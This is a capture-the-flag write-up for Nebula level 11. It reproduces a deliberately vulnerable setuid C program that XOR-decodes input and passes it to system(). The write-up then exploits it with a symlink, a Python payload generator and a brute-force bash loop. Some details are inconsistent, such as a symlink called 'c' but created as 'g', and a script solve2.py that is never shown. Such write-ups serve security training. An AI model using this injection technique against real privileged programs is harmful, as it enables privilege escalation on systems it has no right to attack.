

# Nebula - [LEVEL 11](https://exploit.education/nebula/level-11/)

Level Description:



```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for
 * it. 
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}

void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}

#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[1024];
  char *mem;
  int length;
  int fd;
  char *path;

  if(fgets(line, sizeof(line), stdin) == NULL) {
      errx(1, "reading from stdin");
  }

  if(strncmp(line, CL, strlen(CL)) != 0) {
      errx(1, "invalid header");
  }

  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
      if(fread(buf, length, 1, stdin) != length) {
          err(1, "fread length");
      }
      process(buf, length);
  } else {
      int blue = length;
      int pink;

      fd = getrand(&path);

      while(blue > 0) {
          printf("blue = %d, length = %d, ", blue, length);

          pink = fread(buf, 1, sizeof(buf), stdin);
          printf("pink = %d\n", pink);

          if(pink <= 0) {
              err(1, "fread fail(blue = %d, length = %d)", blue, length);
          }
          write(fd, buf, pink);

          blue -= pink;
      }    

      mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
      if(mem == MAP_FAILED) {
          err(1, "mmap");
      }
      process(mem, length);
  }

}
```

# Nebula - [LEVEL 11](https://exploit.education/nebula/level-11/) - Solution

We have two methods to solve this challenge.

By observing the code we can see that if ```Content-Length``` is smaller than ```1024``` bytes -  we get into the ```if``` statement and the binary read ```length``` bytes and then go to ``` process``` function which is:
```c
void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}
```

We can create a symbol link called ```c``` on ```/tmp``` to ```getflag``` command:
```console
level11@nebula:/tmp$ ln -s /bin/getflag g
```

So according to the ```process``` function, We need to XOR the character ```c``` with ```1``` to make ```process``` XOR it again to ```c```, We can create the payload using the following code:
```python
level11@nebula:/tmp$ cat solve.py
symlink="c"
key = len(symlink) & 0xff

enc_command = chr(key ^ ord(symlink[0]))
print("Content-Length: 1")
print(enc_command)
```

And by running that we get:
```console
level11@nebula:/tmp$ python solve.py | /home/flag11/flag11
sh: $'cP\246': command not found
level11@nebula:/tmp$ python solve.py | /home/flag11/flag11
sh: $'c@\206': command not found
level11@nebula:/tmp$ python solve.py | /home/flag11/flag11
sh: $'c\220\251': command not found
```

The problem is that we don't have the ```\x00``` byte to delimit the command to be executed, But as we can see for each run we get a random byte after ```c```, So we can run it until we get the ```\x00``` byte with the following bash script:
```bash
export TEMP=/tmp

while [ 1 ];
do
        res=$(python solve2.py | /home/flag11/flag11 | grep "getflag" 2>/dev/null)
        if [[ $res == *"getflag"* ]]; then
                echo $res
                break
        fi
done

```

And by running the bash script we get:
```console
level11@nebula:/tmp$ bash runner.sh
sh: $'c\340\327': command not found
sh: $'c\300\320': command not found
sh: $'c\300\214': command not found
sh: $'c\220x': command not found
getflag is executing on a non-flag account, this doesn't count

```

NOTE: For some reason, it runs as ```level11``` instead ```flag11```.